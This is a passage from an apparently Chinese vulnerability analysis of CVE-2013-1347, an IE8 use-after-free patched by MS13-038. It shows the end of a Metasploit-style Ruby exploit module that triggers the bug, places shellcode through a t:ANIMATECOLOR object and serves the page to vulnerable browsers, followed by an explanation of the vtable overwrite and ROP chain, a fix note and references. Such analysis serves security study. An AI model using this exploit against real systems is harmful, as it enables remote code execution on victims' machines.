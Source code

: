 ```Ruby
      CollectGarbage();
      f1.appendChild(document.createElement('table'));
      try      { f0.offsetParent=null;}
      catch(e) { }
      f2.innerHTML = "";
      f1.innerHTML = "";
      f0.appendChild(document.createElement('hr'));
      mstime_malloc({shellcode:magenta, heapBlockSize:0x38, objId:"myanim"});
    }
    </script>
    </head>
    <body onload="eval(helloWorld());">
    <t:ANIMATECOLOR id="myanim"/>
    </body>
    </html>
    |

    return html
  end

  def on_request_uri(cli, request)
    agent = request.headers['User-Agent']
    uri   = request.uri
    print_status("Requesting: #{uri}")

    my_target = get_target(agent)
    if my_target.nil?
      print_error("Browser not supported, sending 404: #{agent}")
      send_not_found(cli)
      return
    end

    html = load_exploit_html(my_target, cli)
    html = html.gsub(/^ {4}/, '')
    print_status("Sending HTML...")
    send_response(cli, html, {'Content-Type'=>'text/html'})
  end
end
```

IE8 中存在一个叫做 t: ANIMATECOLOR 的标签，其标签值为一个用分号分隔的字符串。标签对象的每个元素都时一个指针，指向分号分隔出的字符串，因此其大小取决于分号的个数，即我们可以任意控制该对象的大小和其作为指针的元素指向的内容。由漏洞分析得知 UAF 对象的大小为 0x4c，故 exp 创建了包含 0x4c / 4 = 13 个分号的字符串，且第一个分号前的字符串被用于覆盖虚表指针。随后即可劫持程序执行流到 ROP 链上再跳转到 shellcode 上是新鲜任意代码执行

## 漏洞修复

相应渲染逻辑被修改后漏洞修复

## Reference

[Microsoft Security Bulletin MS13-038 - Critical](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2013/ms13-038)
[Github - CVE-2013-1347](https://github.com/advisories/GHSA-4j4f-7rwg-p4q7)
[NVD - CVE-2013-1347](https://nvd.nist.gov/vuln/detail/CVE-2013-1347)
[CVE - CVE-2013-1347](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-1347)
[漏洞战争](https://book.douban.com/subject/26830238/)
